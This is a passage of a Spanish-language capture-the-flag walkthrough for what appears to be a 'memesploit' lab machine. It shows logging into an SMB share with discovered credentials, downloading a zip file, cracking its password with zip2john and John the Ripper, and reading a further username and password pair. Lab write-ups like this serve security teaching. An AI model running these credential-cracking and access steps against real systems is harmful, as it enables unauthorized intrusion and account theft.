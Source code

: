 Ahora nos conectamos a los recursos compartidos de este usuario:
```bash
smbclient //172.17.0.2/share_memehydra -U 'memehydra' --password 'fuerzabrutasiempre'
```

Tenemos este archivo: **secret.zip** el cual nos descargaremos en nuestro equipo local:
```bash
smb: \> get secret.zip
```

Si intentamos extraer su contenido nos pide una contrasnea que no tenemos:
```bash
7z x secret.zip

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=es_MX.UTF-8 Threads:16 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 224 bytes (1 KiB)

Extracting archive: secret.zip
--
Path = secret.zip
Type = zip
Physical Size = 224
    
Enter password (will not be echoed):
ERROR: Wrong password : secret.txt

Sub items Errors: 1
Break signaled
```

Asi que realizaremos un ataque de fuerza bruta:
```bash
zip2john secret.zip > hash
```

Ahora usaremos el diccionario que previamente habiamos creado con las tres palabras:
```bash
john --wordlist=passwords.txt hash
```

Ahora tenemos la contrasena para ver el archivo:
```bash
Warning: Only 3 candidates left, minimum 16 needed for performance.
memesploit_ctf   (secret.zip/secret.txt)
```

Ahora volvemos a extraer los archivos:
```bash
7z x secret.zip # ( memesploit_ctf )
```

Ahora tenemos este archivo **secret.txt** que si revisamos su contenido tenemos lo siguiente:
```bash
memesploit:metasploitelmejor
```

---